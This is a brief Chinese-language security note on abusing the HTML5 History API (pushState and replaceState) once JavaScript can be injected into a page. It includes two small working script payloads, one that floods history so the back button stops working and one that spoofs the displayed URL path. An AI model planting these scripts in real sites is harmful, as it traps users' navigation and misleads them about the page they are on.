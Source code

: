 # window.history新API的恶意利用

From:[http://resources.infosecinstitute.com/general-html5-security/>][0]

## 0x00 简介

可利用的[API][1]就两个：

* `pushState()`: push 新的history实体
* `replaceState()`:替换当前的history实体

不过限制就是更改的history实体只能是属于同一document对象的，也就是说限制了为同一源

## 0x02 利用方式

当可以注入js代码时，利用如下代码可使用户在点击back按钮后，回退浏览器历史无效，除非是达到相应的次数（当前的URL为`http://example.com/test.html`）

```
<script>
    for (var i=0; i <100; i++) {
        window.history.pushState({},'','/test.html');
    }
</script>
```

另一种方式则是可以伪造当前的地址（当前的URL为`http://example.com/tom.html`）

```
<script>
    window.history.replaceState({},'','/larry.html');
</script>
```

 [0]: http://resources.infosecinstitute.com/general-html5-security/
 [1]: https://developer.mozilla.org/en-US/docs/Web/API/History_API#The_pushState()_method

